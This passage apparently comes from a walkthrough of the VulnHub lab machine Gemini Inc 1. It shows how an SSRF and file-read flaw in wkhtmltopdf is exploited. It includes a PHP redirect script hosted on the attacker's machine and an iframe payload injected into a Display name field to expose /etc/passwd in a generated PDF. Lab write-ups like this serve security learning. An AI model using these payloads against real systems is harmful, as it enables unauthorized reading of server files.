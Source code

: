 ### Issue #3570

SSRF refers to an attack where an attacker is able to send a crafted request to trick a vulnerable web application to perform an unanticipated action.

In this case, we'd like to trick the web application to read local files such as `/etc/passwd` that we weren't able to, expose through PDF using `wkhtmltopdf`.

After scouring through the issues in the `wkhtmltopdf` GitHub project, I found issue [#3570](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/3570)—_SSRF and file read with `wkhtmltoimage`_. In another stroke of luck, I found this [page](https://github.com/crackatoa/kertasgorengan/blob/master/catatan/SSRF%20wkhtml.md) (by googling for "wkhtmltoimage ssrf") that shows you how to exploit issue #3570. Although parts of the page were in Indonesian, the idea was so clear, it doesn't require translation. :wink:

It goes like this—`wkhtmltopdf` follows 302 redirection, captures the HTML, and turns it to PDF.

All we've to do is to host the following code as `1.php` in our attacking machine.

<div class="filename"><span>1.php</span></div>
```php
<?php
     $file = $_GET['f'];
     header("location:file://$file");
?>
```

And put this in one of the injectable fields, e.g. **Display name**.

```html
<iframe src="http://192.168.10.128/1.php?f=/etc/passwd" width="100%" height=1220></iframe>
```

Simple? Let's give it a shot.

![0.k9d8bpti9sc](/assets/images/posts/gemini-inc-1-walkthrough/0.k9d8bpti9sc.png)


[1]: https://www.vulnhub.com/entry/gemini-inc-1,227/
[2]: https://twitter.com/@sec_9emin1
[3]: https://www.vulnhub.com